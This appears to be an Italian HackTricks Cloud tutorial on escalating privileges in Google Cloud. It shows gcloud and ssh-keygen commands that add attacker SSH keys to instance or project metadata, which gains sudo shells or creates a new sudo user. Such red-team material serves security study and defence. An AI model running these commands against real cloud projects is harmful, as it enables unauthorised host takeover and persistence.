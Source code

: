 # GCP - Aggiungi Metadati SSH Personalizzati

## GCP - Aggiungi Metadati SSH Personalizzati

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

### Modifica dei metadati <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modifica dei metadati su un'istanza potrebbe portare a **significativi rischi per la sicurezza se un attaccante ottiene i permessi necessari**.

#### **Incorporazione di chiavi SSH nei metadati personalizzati**

Su GCP, **i sistemi Linux** spesso eseguono script dall'[Ambiente Ospite Linux Python per Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente critico di questo è il [daemon degli account](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), progettato per **controllare regolarmente** l'endpoint dei metadati dell'istanza per **aggiornamenti alle chiavi pubbliche SSH autorizzate**.

Pertanto, se un attaccante può modificare i metadati personalizzati, potrebbe far sì che il daemon trovi una nuova chiave pubblica, che verrà elaborata e **integrata nel sistema locale**. La chiave verrà aggiunta al file `~/.ssh/authorized_keys` di un **utente esistente o potenzialmente creando un nuovo utente con privilegi `sudo`**, a seconda del formato della chiave. E l'attaccante sarà in grado di compromettere l'host.

#### **Aggiungi chiave SSH a un utente privilegiato esistente**

1. **Esamina le chiavi SSH esistenti sull'istanza:**
*   Esegui il comando per descrivere l'istanza e i suoi metadati per localizzare le chiavi SSH esistenti. La sezione rilevante nell'output sarà sotto `metadata`, specificamente la chiave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Fai attenzione al formato delle chiavi SSH: il nome utente precede la chiave, separato da due punti.
2. **Prepara un file di testo per i metadati della chiave SSH:**
* Salva i dettagli dei nomi utente e delle loro corrispondenti chiavi SSH in un file di testo chiamato `meta.txt`. Questo è essenziale per preservare le chiavi esistenti mentre ne aggiungi di nuove.
3. **Genera una nuova chiave SSH per l'utente target (`alice` in questo esempio):**
*   Usa il comando `ssh-keygen` per generare una nuova chiave SSH, assicurandoti che il campo commento (`-C`) corrisponda al nome utente target.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Aggiungi la nuova chiave pubblica a `meta.txt`, mimando il formato trovato nei metadati dell'istanza.
4. **Aggiorna i metadati della chiave SSH dell'istanza:**
*   Applica i metadati aggiornati della chiave SSH all'istanza utilizzando il comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Accedi all'istanza utilizzando la nuova chiave SSH:**
*   Connettiti all'istanza con SSH utilizzando la nuova chiave, accedendo alla shell nel contesto dell'utente target (`alice` in questo esempio).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Crea un nuovo utente privilegiato e aggiungi una chiave SSH**

Se non viene trovato alcun utente interessante, è possibile crearne uno nuovo a cui verranno concessi privilegi `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Chiavi SSH a livello di progetto <a href="#sshing-around" id="sshing-around"></a>

È possibile ampliare l'accesso SSH a più Macchine Virtuali (VM) in un ambiente cloud **applicando le chiavi SSH a livello di progetto**. Questo approccio consente l'accesso SSH a qualsiasi istanza all'interno del progetto che non ha esplicitamente bloccato le chiavi SSH a livello di progetto. Ecco una guida riassuntiva:

1. **Applica le chiavi SSH a livello di progetto:**
*   Usa il comando `gcloud compute project-info add-metadata` per aggiungere le chiavi SSH da `meta.txt` ai metadati del progetto. Questa azione garantisce che le chiavi SSH siano riconosciute in tutte le VM del progetto, a meno che una VM non abbia abilitato l'opzione "Blocca le chiavi SSH a livello di progetto".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH nelle istanze utilizzando le chiavi a livello di progetto:**
* Con le chiavi SSH a livello di progetto in atto, puoi SSH in qualsiasi istanza all'interno del progetto. Le istanze che non bloccano le chiavi a livello di progetto accetteranno la chiave SSH, concedendo accesso.
* Un metodo diretto per SSH in un'istanza è utilizzare il comando `gcloud compute ssh [INSTANCE]`. Questo comando utilizza il tuo nome utente attuale e le chiavi SSH impostate a livello di progetto per tentare l'accesso.

## Riferimenti

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
